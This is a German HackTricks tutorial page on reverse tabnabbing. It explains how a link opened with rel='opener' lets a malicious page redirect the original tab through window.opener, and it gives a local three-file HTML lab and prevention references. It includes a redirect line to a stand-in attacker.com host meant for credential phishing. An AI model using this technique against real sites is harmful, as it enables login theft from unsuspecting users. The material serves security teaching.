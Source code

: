 {% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}


# Beschreibung

In einer Situation, in der ein **Angreifer** das **`href`**-Argument eines **`<a`**-Tags mit dem Attribut **`target="_blank" rel="opener"`** kontrollieren kann, das von einem Opfer angeklickt wird, **zeigt der Angreifer** diesen **Link** auf eine Website unter seiner Kontrolle (eine **bösartige** **Website**). Sobald das **Opfer** auf den Link klickt und die Website des Angreifers aufruft, kann diese **bösartige** **Website** die **ursprüngliche** **Seite** über das JavaScript-Objekt **`window.opener`** **steuern**.\
Wenn die Seite **`rel="opener"` nicht hat, aber `target="_blank"` enthält und auch kein `rel="noopener"` hat, könnte sie ebenfalls anfällig sein.

Eine gängige Methode, dieses Verhalten auszunutzen, wäre, die **Position der ursprünglichen Website** über `window.opener.location = https://attacker.com/victim.html` auf eine vom Angreifer kontrollierte Website zu ändern, die **wie die ursprüngliche aussieht**, sodass sie das **Anmeldeformular** der ursprünglichen Website **imitieren** und den Benutzer nach Anmeldeinformationen fragen kann.

Beachten Sie jedoch, dass der **Angreifer nun das Fensterobjekt der ursprünglichen Website steuern kann**, sodass er es auf andere Weise ausnutzen kann, um **versteckte Angriffe** durchzuführen (vielleicht JavaScript-Ereignisse zu ändern, um Informationen an einen von ihm kontrollierten Server zu exfiltrieren?)

# Übersicht

## Mit Rücklink

Link zwischen Eltern- und Kindseiten, wenn das Präventionsattribut nicht verwendet wird:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png)

## Ohne Rücklink

Link zwischen Eltern- und Kindseiten, wenn das Präventionsattribut verwendet wird:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png)

## Beispiele <a href="#examples" id="examples"></a>

Erstellen Sie die folgenden Seiten in einem Ordner und führen Sie einen Webserver mit `python3 -m http.server` aus.\
Dann **greifen Sie zu** `http://127.0.0.1:8000/`vulnerable.html, **klicken** Sie auf den Link und beachten Sie, wie sich die **URL** der **ursprünglichen** **Website** **ändert**.

{% code title="vulnerable.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```
{% endcode %}

{% code title="malicious.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```
{% endcode %}

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
{% endcode %}

## Zugängliche Eigenschaften <a href="#accessible-properties" id="accessible-properties"></a>

In dem Szenario, in dem ein **cross-origin** Zugriff erfolgt (Zugriff über verschiedene Domains), sind die Eigenschaften der **window** JavaScript-Klasseninstanz, auf die durch die **opener** JavaScript-Objektreferenz verwiesen wird, die von einer böswilligen Seite zugegriffen werden können, auf die folgenden beschränkt:

- **`opener.closed`**: Diese Eigenschaft wird verwendet, um festzustellen, ob ein Fenster geschlossen wurde, und gibt einen booleschen Wert zurück.
- **`opener.frames`**: Diese Eigenschaft bietet Zugriff auf alle iframe-Elemente im aktuellen Fenster.
- **`opener.length`**: Die Anzahl der im aktuellen Fenster vorhandenen iframe-Elemente wird durch diese Eigenschaft zurückgegeben.
- **`opener.opener`**: Eine Referenz auf das Fenster, das das aktuelle Fenster geöffnet hat, kann durch diese Eigenschaft erhalten werden.
- **`opener.parent`**: Diese Eigenschaft gibt das übergeordnete Fenster des aktuellen Fensters zurück.
- **`opener.self`**: Zugriff auf das aktuelle Fenster selbst wird durch diese Eigenschaft bereitgestellt.
- **`opener.top`**: Diese Eigenschaft gibt das oberste Browserfenster zurück.

In Fällen, in denen die Domains identisch sind, erhält die böswillige Seite jedoch Zugriff auf alle Eigenschaften, die durch die [**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window) JavaScript-Objektreferenz exponiert werden.

# Prävention

Präventionsinformationen sind im [HTML5 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing) dokumentiert.

## Referenzen

* [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
